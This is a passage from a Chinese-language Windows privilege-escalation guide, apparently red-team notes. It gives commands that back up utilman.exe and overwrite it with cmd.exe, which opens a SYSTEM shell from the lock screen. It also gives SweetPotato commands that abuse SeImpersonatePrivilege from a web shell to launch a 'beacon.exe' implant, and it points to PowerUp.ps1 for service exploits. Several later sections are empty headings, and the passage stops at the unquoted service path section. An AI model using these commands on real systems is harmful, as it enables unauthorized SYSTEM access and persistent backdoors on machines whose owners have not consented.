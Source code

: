 将原文件备份，并使用 cmd.exe 进行替换。

```plaintext
C:\Windows\system32>copy C:\windows\system32\utilman.exe C:\windows\system32\tasks\utilman.exe.back
        1 file(s) copied.

C:\Windows\system32>copy /y C:\windows\system32\cmd.exe C:\windows\system32\utilman.exe
        1 file(s) copied.
```

在锁屏界面 Win + U 或者点击右下角辅助功能即可弹出 cmd.exe，获取到 SYSTEM 权限。

#### 1.2.4 SeImpersonatePrivilege

在遇到 WebShell 情况下 IIS 或者是 SQL Server 这种 Windows 服务账户，可以先查询是否启用 SeImpersonatePrivilege 模拟权限，启用就使用 Potato Family 提升到 SYSTEM。

-   Rotten Potato
    
-   [Juicy Potato](https://3gstudent.github.io/Windows%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83%E5%B7%A5%E5%85%B7Juicy-Potato%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90)
    
-   Pipe Potato
    
-   [Sweet Potato](https://github.com/CCob/SweetPotato)，打包 Rotten Potato、Juicy Potato、Sweet Potato 利用方法，做了整合，方便一键利用，真香！
    
    直接上传上去挨个服务试。
    
    ```plaintext
     SweetPotato.exe -p beacon.exe
     SweetPotato.exe -e EfsRpc -p beacon.exe
     SweetPotato.exe -e DCOM -p beacon.exe
     SweetPotato.exe -e WinRM -p beacon.exe
    ```
    
-   [GodPotato](https://github.com/BeichenDream/GodPotato)，2023 年在历史土豆汇总的基础上又研究了新的 DCOM 利用方式。
    

#### 1.2.5 SeAssignPrimaryTokenPrivilege⚒️

#### 1.2.6 SeTcbPrivilege⚒️

#### 1.2.7 SeCreateTokenPrivilege⚒️

#### 1.2.8 SeLoadDriverPrivilege⚒️

#### 1.2.9 SeDebugPrivilege⚒️

### 1.3 Service

本章节所有漏洞 可以用 [powerup.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) 自动检测利用。

#### 1.3.1 Unquoted Service Path

在命令行里运行一条命令。

